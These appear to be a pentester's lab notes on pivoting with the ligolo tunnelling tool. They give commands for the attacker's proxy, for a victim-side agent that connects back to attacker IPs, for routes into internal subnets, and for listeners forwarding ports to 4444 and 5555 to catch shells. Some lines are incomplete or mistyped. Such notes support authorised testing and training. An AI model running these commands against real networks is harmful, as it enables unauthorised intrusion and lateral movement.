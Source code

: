 ## Host Machine
```
sudo ip tuntap add user kali mode tun ligolo 
```

```
sudo ip link set ligolo up
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:8443
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:8443
```

## On Victim Machine
```
.\agent.exe -connect 192.168.45.164:8443 -ignore-cert
```

```
./agent -connect 10.10.14.21:8443 -ignore-cert
```

```
.\agent.exe -connect 10.10.16.:443 -ignore-cert
```

## On Host Machine
```
sudo ip route add 172.16.0.0/24 dev ligolo
```

```
sudo ip route add 172.17.0.0/24 dev ligolo
```

```
sudo ip route add 10.9.15.0/24 dev ligolo
```

```
sudo ip route add 192.168.1.0/24 dev ligolo
```
## Listeners
```rust
listener_add --addr 0.0.0.0:443 --to 0.0.0.0:4444
```

```
listener_add --addr 0.0.0.0:80 --to 0.0.0.0:5555
```

.\agent.exe -connect 10.10.14.21:8433 -ignore-cert

listener_add --addr 0.0.0.0:8443 --to 0.0.0.0:8443 --tcp
https://malicious.link/posts/2020/run-as-system-using-evil-winrm/

10.129.0.1


